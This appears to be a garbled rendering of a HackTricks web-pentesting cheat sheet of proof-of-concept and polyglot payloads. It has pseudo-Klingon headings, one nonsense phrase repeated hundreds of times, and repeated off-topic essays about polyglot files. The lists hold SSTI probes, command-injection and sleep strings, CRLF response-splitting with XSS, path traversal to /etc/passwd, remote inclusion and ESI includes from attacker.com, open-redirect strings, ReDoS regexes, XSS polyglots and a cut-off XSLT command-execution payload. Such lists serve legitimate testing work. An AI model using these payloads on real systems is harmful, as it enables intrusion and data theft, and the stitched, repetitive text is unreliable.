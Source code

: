 # qo'wI'wI' - PoCs je Polygloths CheatSheet

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>laH HackTricks AWS hacking</strong></a><strong>!</strong></summary>

HackTricks ni'wI'wI' vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **qawHaqtricks**:

* **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **tlhIngan Hol** vItlhutlhlaHbe'chugh **
```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
## [Client Side Template Injection](../client-side-template-injection-csti.md)

### tlhIngan Hol

### QaStaHvIS

#### Basic Tests
```
{{7*7}}
[7*7]
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and execute malicious code. Polygloths can be created by manipulating the file's structure or by embedding different file types within each other.

#### Polyglot File Structure

A polyglot file is designed to have a valid structure for multiple file types. This allows the file to be interpreted correctly by different programs, depending on the file type being detected. By exploiting the differences in how different programs interpret file headers and structures, a polyglot file can be used to execute code in unexpected ways.

#### Polyglot File Examples

Here are some examples of polyglot files:

- **Image and JavaScript**: A file that appears to be a valid image file, but also contains JavaScript code that can be executed when the file is opened in a web browser.

- **PDF and ZIP**: A file that appears to be a valid PDF document, but also contains a ZIP archive that can be extracted when the file is opened with a ZIP utility.

- **HTML and PHP**: A file that appears to be a valid HTML document, but also contains PHP code that can be executed when the file is processed by a web server.

#### Using Polygloths in Hacking

Polygloths can be used in various hacking scenarios, including:

- **Bypassing File Type Filters**: By creating a polyglot file that appears to be a harmless file type, such as an image or a document, hackers can bypass file type filters and upload malicious code to a target system.

- **Evading Antivirus Detection**: By embedding malicious code within a polyglot file, hackers can evade antivirus detection systems that rely on file signatures or heuristics to identify malicious files.

- **Exploiting File Processing Vulnerabilities**: Polygloths can be used to exploit vulnerabilities in file processing systems. By tricking a program into interpreting a polyglot file as a different file type, hackers can execute code that takes advantage of vulnerabilities specific to that file type.

#### Conclusion

Polygloths are powerful tools in the hacker's arsenal. By leveraging the ability to be interpreted as multiple file types, polygloths can be used to bypass security measures, evade detection, and exploit vulnerabilities. It is important for security professionals to be aware of polyglot files and understand how they can be used in hacking attacks.
```bash
{{7*7}}[7*7]
```
## [Command Injection](../command-injection.md)

### Basic Tests

### tlhIngan Hol translation:

## [Command Injection](../command-injection.md)

### Basic Tests
```bash
;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls`
$(ls)
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and execute malicious code. Polygloths can be created by manipulating the file's structure or by embedding different file types within each other.

#### Polyglot File Structure

A polyglot file is designed to have a valid structure for multiple file types. This allows the file to be interpreted correctly by different programs, depending on the file type being detected. By exploiting the differences in how different programs interpret file headers and structures, a polyglot file can be used to execute code in unexpected ways.

#### Polyglot File Examples

Here are some examples of polyglot files:

- **Image and Script**: A file that can be interpreted as both an image file and a script file. This can be achieved by embedding a script within the image file's metadata or by manipulating the file's structure to make it appear as both an image and a script.

- **PDF and HTML**: A file that can be interpreted as both a PDF file and an HTML file. This can be achieved by embedding HTML code within a PDF file or by manipulating the file's structure to make it appear as both a PDF and an HTML file.

- **Audio and Document**: A file that can be interpreted as both an audio file and a document file. This can be achieved by embedding audio data within a document file or by manipulating the file's structure to make it appear as both an audio and a document file.

#### Uses of Polygloths in Hacking

Polygloths can be used in various hacking scenarios, including:

- **Bypassing Security Measures**: By disguising malicious code as a harmless file type, polygloths can bypass security measures that only scan for specific file types. For example, a polyglot file that appears as an image file may not be scanned for malicious code by an antivirus program that only scans for executable files.

- **Exploiting Vulnerabilities**: Polygloths can be used to exploit vulnerabilities in software that interprets multiple file types. By manipulating the file's structure, an attacker can trigger a vulnerability in a program and execute malicious code.

- **Data Exfiltration**: Polygloths can be used to exfiltrate sensitive data by embedding it within a file that appears harmless. For example, an attacker may embed sensitive data within an image file and then send it through a communication channel without arousing suspicion.

#### Detecting Polygloths

Detecting polygloths can be challenging, as they are designed to appear as legitimate files of multiple types. However, there are some techniques that can be used to identify polyglot files:

- **File Signature Analysis**: Analyzing the file's signature can help identify if it is a polyglot file. The signature may reveal inconsistencies or multiple file type indicators.

- **File Structure Analysis**: Analyzing the file's structure can help identify if it is a polyglot file. Inconsistencies or unexpected elements in the file's structure may indicate that it is a polyglot.

- **Behavioral Analysis**: Executing the file in a controlled environment and monitoring its behavior can help identify if it is a polyglot file. Unexpected behavior or execution of code from multiple file types can indicate that it is a polyglot.

#### Conclusion

Polygloths are powerful tools in the hands of hackers, allowing them to bypass security measures and execute malicious code. As a defender, it is important to be aware of the existence of polygloths and to implement appropriate security measures to detect and mitigate their risks.
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```
## [CRLF](../crlf-0d-0a.md)

### Qa'Hom QaD

#### Test 1: CRLF Injection

##### Description:

This test checks for CRLF injection vulnerabilities in web applications. CRLF injection occurs when an attacker is able to inject CRLF characters (%0D%0A or \r\n) into an HTTP response header or body. This can lead to various security issues such as HTTP response splitting, cache poisoning, and cross-site scripting (XSS) attacks.

##### Steps:

1. Send a request to the target web application with a payload that includes CRLF characters (%0D%0A or \r\n) in the request parameters or headers.
2. Check the response for any unexpected behavior or anomalies, such as the presence of additional headers or unexpected line breaks.

##### Example:

```
GET /vulnerable.php?param1=test%0D%0AInjectedHeader:malicious%0D%0A%0D%0AHTTP/1.1
Host: example.com
```

##### Remediation:

To prevent CRLF injection vulnerabilities, ensure that all user-supplied input is properly validated and sanitized before being used in HTTP responses. Additionally, consider using a web application firewall (WAF) to detect and block CRLF injection attempts.

#### Test 2: HTTP Response Splitting

##### Description:

This test checks for HTTP response splitting vulnerabilities in web applications. HTTP response splitting occurs when an attacker is able to inject CRLF characters (%0D%0A or \r\n) into an HTTP response header. This can lead to security issues such as cache poisoning, session hijacking, and cross-site scripting (XSS) attacks.

##### Steps:

1. Send a request to the target web application with a payload that includes CRLF characters (%0D%0A or \r\n) in the request parameters or headers.
2. Check the response for any unexpected behavior or anomalies, such as the presence of additional headers or unexpected line breaks.

##### Example:

```
GET /vulnerable.php?param1=test%0D%0AInjectedHeader:malicious%0D%0A%0D%0AHTTP/1.1
Host: example.com
```

##### Remediation:

To prevent HTTP response splitting vulnerabilities, ensure that all user-supplied input is properly validated and sanitized before being used in HTTP responses. Additionally, consider using a web application firewall (WAF) to detect and block HTTP response splitting attempts.
```bash
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
## Dangling Markup

### Basic Tests

### Qa'Hom QaD

#### Test 1: HTML Injection

##### Description

HTML injection is a vulnerability that allows an attacker to inject malicious HTML code into a web page. This can lead to various attacks such as cross-site scripting (XSS) or defacement of the website.

##### Test

To test for HTML injection, you can try injecting simple HTML tags into user input fields or query parameters. For example, you can try injecting the following code:

```html
<script>alert('XSS')</script>
```

If the injected code is executed and an alert box with the message "XSS" is displayed, it indicates a vulnerability.

##### Remediation

To prevent HTML injection, you should always sanitize user input and encode special characters. Use proper input validation and output encoding techniques to ensure that user-supplied data is treated as plain text and not interpreted as HTML code.

#### Test 2: SQL Injection

##### Description

SQL injection is a vulnerability that allows an attacker to manipulate SQL queries executed by a web application. This can lead to unauthorized access, data leakage, or even complete compromise of the underlying database.

##### Test

To test for SQL injection, you can try injecting SQL statements into user input fields or query parameters. For example, you can try injecting the following code:

```sql
' OR '1'='1' --
```

If the injected code alters the behavior of the SQL query and returns unexpected results, it indicates a vulnerability.

##### Remediation

To prevent SQL injection, you should always use parameterized queries or prepared statements. These techniques ensure that user input is treated as data and not as part of the SQL query itself. Additionally, input validation and proper error handling should be implemented to detect and prevent SQL injection attacks.

#### Test 3: Command Injection

##### Description

Command injection is a vulnerability that allows an attacker to execute arbitrary commands on the underlying operating system. This can lead to unauthorized access, data manipulation, or even complete compromise of the system.

##### Test

To test for command injection, you can try injecting arbitrary commands into user input fields or query parameters. For example, you can try injecting the following code:

```bash
; ls -la
```

If the injected code is executed and the output of the `ls -la` command is displayed, it indicates a vulnerability.

##### Remediation

To prevent command injection, you should never directly execute user-supplied input as a command. Instead, use proper input validation and sanitization techniques to ensure that user input is treated as data and not as executable code. Additionally, access controls should be implemented to limit the privileges of the web application and prevent unauthorized command execution.
```markup
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
```
## [ghItlhvam/Path Traversal](../ghItlhvam/)

### pagh QaD

### Directory Traversal

#### Description

A directory traversal attack (also known as path traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with "dot-dot-slash (../)" sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system, including application source code, configuration, and critical system files.

#### Example

```http
GET /vulnerable.php?page=../../../../etc/passwd HTTP/1.1
Host: example.com
```

#### Prevention

- Avoid passing user-supplied input directly to file paths or include statements.
- Implement a whitelist of allowed file names or directories.
- Use platform-specific functions to sanitize file paths.
- Set appropriate file system permissions to restrict access to sensitive files and directories.

### Local File Inclusion (LFI)

#### Description

Local File Inclusion (LFI) is a type of vulnerability that allows an attacker to include files on a server through the web browser. This vulnerability occurs when a web application does not properly sanitize user-supplied input, allowing an attacker to manipulate the input and include arbitrary files from the local file system.

#### Example

```http
GET /vulnerable.php?page=/etc/passwd HTTP/1.1
Host: example.com
```

#### Prevention

- Avoid passing user-supplied input directly to file paths or include statements.
- Implement a whitelist of allowed file names or directories.
- Use platform-specific functions to sanitize file paths.
- Set appropriate file system permissions to restrict access to sensitive files and directories.

### Remote File Inclusion (RFI)

#### Description

Remote File Inclusion (RFI) is a type of vulnerability that allows an attacker to include files from a remote server through the web browser. This vulnerability occurs when a web application does not properly sanitize user-supplied input, allowing an attacker to manipulate the input and include arbitrary files from a remote server.

#### Example

```http
GET /vulnerable.php?url=http://attacker.com/malicious.php HTTP/1.1
Host: example.com
```

#### Prevention

- Avoid passing user-supplied input directly to file paths or include statements.
- Implement a whitelist of allowed file names or directories.
- Use platform-specific functions to sanitize file paths.
- Set appropriate file system permissions to restrict access to sensitive files and directories.
```bash
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
```
## [Qapla' QaD](../open-redirect.md) / [Server Side Request Forgery](../ssrf-server-side-request-forgery/)

### QaDmey QaDmeyHa'
```bash
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
```
## [ReDoS](../regular-expression-denial-of-service-redos.md)

### QaStaHvIS

#### Basic Tests
```bash
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
```
## [Server Side Inclusion/Edge Side Inclusion](../server-side-inclusion-edge-side-inclusion-injection.md)

### Qa'Hom QaD

#### Basic Tests
```markup
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="ls" -->
<esi:include src=http://attacker.com/>
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and execute malicious code. Polygloths can be created by manipulating the file's structure or by embedding different file types within each other.

#### Polyglot File Structure

A polyglot file is designed to have a valid structure for multiple file types. This allows the file to be interpreted correctly by different programs, depending on the file type being detected. By exploiting the differences in how different programs interpret file headers and structures, a polyglot file can be used to execute code in unexpected ways.

#### Polyglot File Examples

Here are some examples of polyglot files:

- **Image and JavaScript**: A file that appears to be a valid image file, but also contains JavaScript code that can be executed when the file is opened in a web browser.

- **PDF and ZIP**: A file that appears to be a valid PDF document, but also contains a ZIP archive that can be extracted when the file is opened with a ZIP utility.

- **HTML and PHP**: A file that appears to be a valid HTML document, but also contains PHP code that can be executed when the file is processed by a web server.

#### Polyglot File Detection

Detecting polyglot files can be challenging because they can appear as valid files of different types. However, there are some techniques that can be used to identify polyglot files:

- **File Signature Analysis**: Analyzing the file signature can reveal inconsistencies that indicate the presence of multiple file types within the same file.

- **File Structure Analysis**: Examining the file structure can help identify anomalies that suggest the file is a polyglot.

- **Content Analysis**: Analyzing the content of the file can reveal unexpected behavior or code that indicates the presence of multiple file types.

#### Polyglot File Exploitation

Polyglot files can be used in various hacking scenarios, including:

- **Malware Delivery**: Polyglot files can be used to deliver malware by exploiting vulnerabilities in file parsers or by tricking users into executing the file.

- **Data Exfiltration**: Polyglot files can be used to exfiltrate data by embedding sensitive information within a file that appears harmless.

- **Bypassing Security Measures**: Polyglot files can be used to bypass security measures that rely on file type detection, allowing malicious code to be executed without detection.

#### Conclusion

Polyglot files are a powerful tool in the hacker's arsenal. By exploiting the ability of files to be interpreted as multiple types, hackers can bypass security measures and execute malicious code. Detecting and defending against polyglot files requires a thorough understanding of file signatures, structures, and content analysis techniques.
```markup
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
## [Server Side Request Forgery](../ssrf-server-side-request-forgery/)

The same tests used for Open Redirect can be used here.

## [Server Side Template Injection](../ssti-server-side-template-injection/)

### Basic Tests
```markup
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
### Polygloths

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and gain unauthorized access to systems.

Polygloths can be created by manipulating the file's structure and content to make it appear as different file types. This can be achieved by adding specific headers, changing file extensions, or embedding different file formats within the same file.

By using polygloths, hackers can trick security systems into treating the file as harmless, while it actually contains malicious code or exploits. This allows them to bypass security checks and execute their attacks without detection.

Polygloths can be used in various hacking scenarios, such as phishing attacks, malware distribution, or remote code execution. They can be delivered through different channels, including email attachments, malicious websites, or compromised software.

To protect against polygloths, it is important to have robust security measures in place. This includes using up-to-date antivirus software, implementing strong access controls, and educating users about the risks of opening unknown files.

By understanding the concept of polygloths and how they can be used in hacking, security professionals can better defend against these types of attacks and mitigate the risks they pose to systems and data.

### Polygloths

Polygloths are files that can be interpreted as multiple file types depending on the context in which they are executed. They are often used in hacking to bypass security measures and gain unauthorized access to systems.

Polygloths can be created by manipulating the file's structure and content to make it appear as different file types. This can be achieved by adding specific headers, changing file extensions, or embedding different file formats within the same file.

By using polygloths, hackers can trick security systems into treating the file as harmless, while it actually contains malicious code or exploits. This allows them to bypass security checks and execute their attacks without detection.

Polygloths can be used in various hacking scenarios, such as phishing attacks, malware distribution, or remote code execution. They can be delivered through different channels, including email attachments, malicious websites, or compromised software.

To protect against polygloths, it is important to have robust security measures in place. This includes using up-to-date antivirus software, implementing strong access controls, and educating users about the risks of opening unknown files.

By understanding the concept of polygloths and how they can be used in hacking, security professionals can better defend against these types of attacks and mitigate the risks they pose to systems and data.
```python
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
```
## [XSLT Server Side Injection](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)

### Qa'Hom Tests

#### Test 1: XSLT Server Side Injection

##### Description

This test checks for XSLT Server Side Injection vulnerabilities by injecting malicious code into an XSLT stylesheet.

##### Steps

1. Identify the target application that uses XSLT transformations.
2. Locate the input parameter or field that is used in the XSLT transformation.
3. Craft a payload that includes the malicious XSLT code.
4. Inject the payload into the input parameter or field.
5. Observe the response from the server.
6. If the response contains the output of the injected XSLT code, the application is vulnerable to XSLT Server Side Injection.

##### Example Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
  <xsl:output method="html" version="1.0" encoding="UTF-8" indent="yes"/>
  <xsl:template match="/">
    <xsl:variable name="cmd">
      <xsl:value-of select="user:executeCommand('whoami')"/>
    </xsl:variable>
    <html>
      <body>
